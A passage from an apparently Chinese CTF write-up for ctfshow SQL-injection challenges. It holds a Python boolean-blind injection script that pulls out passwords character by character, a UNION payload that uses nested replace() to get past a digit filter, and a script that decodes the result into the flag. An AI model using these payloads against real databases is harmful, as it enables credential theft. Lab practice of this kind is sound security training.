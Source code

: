 ```python
    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user4 limit 24,1),{i},1))>{mid},1,0) -- -'
        r = requests.get(url + payload)
        if "admin" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)

```

又或者通过replace方法将数字替换成其他的合法字符

```
1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J'),'b' from ctfshow_user4 where username='flag' %23
```

![image-20250206225601177](../assets/image-20250206225601177.png)

拿到flag后替换回去就行

```python
import base64
 
flag64 = "ctfshow{GHIeaIeG-AGaG-DAab-HHae-eEaFcHFIEbef}"
 
flag = flag64.replace("A", "1").replace("B", "2").replace("C", "3").replace("D", "4").replace("E", "5").replace("F", "6").replace("G", "7").replace("H", "8").replace("I", "9").replace("J", "0")
 
print(flag)
```

又或者

![image-20250207160041895](../assets/image-20250207160041895.png)
